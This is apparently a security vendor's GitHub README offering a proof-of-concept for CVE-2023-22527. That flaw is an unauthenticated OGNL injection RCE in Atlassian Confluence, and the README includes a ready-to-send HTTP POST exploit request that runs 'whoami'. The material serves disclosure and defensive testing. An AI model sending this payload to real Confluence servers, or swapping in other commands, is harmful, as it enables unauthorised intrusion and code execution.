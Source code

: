 # Atlassian Confluence CVE-2023-22527 PoC Exploit
Atlassian disclosed a remote code execution vulnerability affecting the Confluence Data Center and Confluence. <br><br>
In this repo, Picus provides a Proof-of-Concept exploit for the CVE-2023-22527 vulnerability.

Test security controls against the CVE-2023-22527 vulnerability exploit 
--------------------------------------
Picus can help you simulate the CVE-2023-22527 vulnerability exploits for free. No setup or signup is required.<br>
Use [Picus Emerging Threat Simulator](https://insights.picussecurity.com/emerging-threat-simulator-announcement?utm_source=github&utm_medium=organic+social&utm_campaign=PLS+Offensive+-+ET+Simulator) and test your defenses in a few clicks.<br> 

If you are looking for more detailed information, check out our blog post: [CVE-2023-22527: Another OGNL Injection Leads to RCE in Atlassian Confluence](https://www.picussecurity.com/resource/blog/cve-2023-22527-another-ognl-injection-leads-to-rce-in-atlassian-confluence)


CVE-2023-22527 Proof-of-concept (POC)
----------------------
Atlassian Confluence CVE-2023-22527 vulnerability is an OGNL injection vulnerability that allows unauthenticated adversaries to execute arbitrary commands remotely in a vulnerable Confluence instance. The vulnerability stems from a Velocity template file named "text-inline.vm" [3]. This file allows adversaries to execute commands by using the expression "#request['.KEY_velocity.struts2.context'].internalGet('ognl')".

The example HTTP POST request below exploits the CVE-2023-22527 vulnerability to execute arbitrary commands remotely.

#### Example CVE-2023-22527 Exploit:
```http
POST /template/aui/text-inline.vm HTTP/1.1
Host: <vulnerable_Confluence_instance>
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 243

label=\u0027+#request\u005b\u0027.KEY_velocity.struts2.context\u0027\u005d.internalGet(\u0027ognl\u0027).findValue(#parameters.x,{})+\u0027&x=(newfreemarker.template.utility.Execute()).exec({"whoami"})
```

Disclaimer
----------
©2024 Picus Security <br>
All rights reserved.
